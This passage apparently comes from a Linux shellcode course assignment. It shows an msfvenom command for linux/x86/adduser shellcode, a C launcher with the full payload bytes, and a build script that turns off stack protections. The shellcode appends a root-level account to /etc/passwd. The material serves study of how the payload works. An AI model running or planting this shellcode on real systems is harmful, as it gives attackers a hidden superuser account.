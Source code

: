 The following command will generate the shellcode on C format: **msfvenom -p linux/x86/adduser USER=SLAE1376 PASS=slaetube -f c**

![](../Images/01_slae_assignment_5.png)

``Shellcode generated for linux/x86/adduser``

This can be inserted in a *shellcode launcher* to debug the execution properly.

````
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x26\x00\x00\x00\x53\x4c"
"\x41\x45\x31\x33\x37\x36\x3a\x41\x7a\x6c\x5a\x42\x31\x30\x4d"
"\x37\x39\x71\x44\x6f\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62"
"\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80"
"\x6a\x01\x58\xcd\x80";

main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
````
``shellcode.c``

To compile the shellcode it is necessary to use the following bash script.

````
#!/bin/bash

echo '[+] Compiling without stack protector and execstack ... '
gcc -fno-stack-protector -z execstack $1.c -o $1
echo '[+] Done!'
````
``compile_shellcode.sh``
